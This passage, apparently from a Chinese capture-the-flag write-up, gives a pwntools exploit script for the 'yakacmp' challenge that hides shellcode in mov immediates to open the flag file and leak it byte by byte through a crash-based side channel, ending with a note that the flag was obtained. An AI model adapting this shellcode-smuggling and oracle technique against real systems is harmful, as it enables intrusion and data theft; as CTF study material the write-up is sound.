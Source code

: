 ```python

def make_chg(reg1, reg2):
    return b'chg ' + reg1 + b',' + reg2

def make_mov(reg1, reg2):
    return b'mov ' + reg1 + b',' + reg2

def make_ret():
    return b'ret'

def send_code(code):
    io.sendlineafter(b'more operation?', code)

for i in range(0x40):
    added = False
    for j in range(ord('0'), 0x80):
        code =    make_mov(b'r1', str(0x67616C66).encode())
        io.sendlineafter(b'some code now', code)
        send_code(make_mov(b'r2', str(0x72eb_00_b1188a + (j << 24)).encode()))
        send_code(make_mov(b'r2', str(0xf0ebdb314858).encode()))
        send_code(make_mov(b'r2', str(0xefeb23330f_00_68 + (i << 8)).encode()))
        send_code(make_mov(b'r2', str(0xefeb050f58006a).encode()))
        send_code(make_mov(b'r2', str(0xf0eb5a406a5e).encode()))
        send_code(make_mov(b'r2', str(0xefeb23330f0068).encode()))
        send_code(make_mov(b'r2', str(0xefeb5f036a050f).encode()))
        send_code(make_mov(b'r2', str(0xefeb585f5e006a).encode()))
        send_code(make_mov(b'r2', str(0xefeb2333000268).encode()))
        send_code(make_mov(b'r2', str(0xf1eb00000002).encode()))
        send_code(make_mov(b'r2', str(0xfeeb1875cb38).encode()))
        send_code(make_mov(b'r2', str(0xc3).encode()))
        send_code(b'NO')
        io.recvuntil(b'over\n')
        time.sleep(0.2)
        if not io.connected():
            print('character #%d is not %c' % (i, chr(j)))
            io.close()
            io = process('./yakacmp')
        else:
            added = True
            print('character #%d : %c' % (i, chr(j)))
            flag += chr(j)
            io.close()
            io = process('./yakacmp')
            break
    if not added:
        print(flag)
        exit(0)
    else:
        added = False
```

exp中的``connected``方法测试``io``是否正常，前面加上0.2秒的延迟给shellcode一些执行的时间。

![](12.png)
成功get flag。
